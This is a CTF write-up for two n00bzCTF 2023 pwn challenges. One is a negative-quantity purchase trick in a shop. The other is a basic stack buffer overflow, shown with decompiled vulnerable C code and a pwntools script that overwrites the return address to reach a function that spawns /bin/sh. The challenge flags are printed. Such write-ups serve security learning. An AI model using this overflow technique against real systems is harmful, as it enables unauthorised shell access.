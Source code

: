 # Pwn challenges from n00bzCTF 2023
- [Flag Shop](#flag-shop)
- [Pwn1](#pwn1)

-----

## Flag-Shop

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/f8bc7702-264f-4f18-8f5a-081929a7ad5d)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/2da35e15-5bc9-4aca-9933-980c3f1fc907)

I bought negative amounts of fake flags, which increase my balance which allowed me to buy the real flag.

Flag: `n00bz{5h0p_g0t_h3ck3d_4nd_fl4g_g0t_570l3n!}`

-----

## Pwn1

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/091044de-551f-4dd4-9b5b-f1f3671f2937)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/c2e19595-59fe-4e2e-bebb-d2c9a4c8ac23)

Decompiling with ghidra shows 2 functions:

```c
void main(EVP_PKEY_CTX *param_1)

{
  char buffer [64];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(buffer,80,stdin);
  system("cat fake_flag.txt");
  return;
}

void win(void)

{
  system("/bin/sh");
  return;
}
```

Basic buffer overflow, 64+8 bytes of junk +  address of win function, then get shell and print out flag.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/6448845b-9aea-4263-b376-88d30e7103b5)

Solve script:

```py
from pwn import *

r = remote("challs.n00bzunit3d.xyz", 35932)

r.sendline(b"A"*72 + p64(0x000000000040124a))

r.interactive()
```

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/35d11284-e4ea-4f12-b355-39ea871a88a6)

Flag: `n00bz{PWN_1_Cl34r3d_n0w_0nt0_PWN_2!!!}`
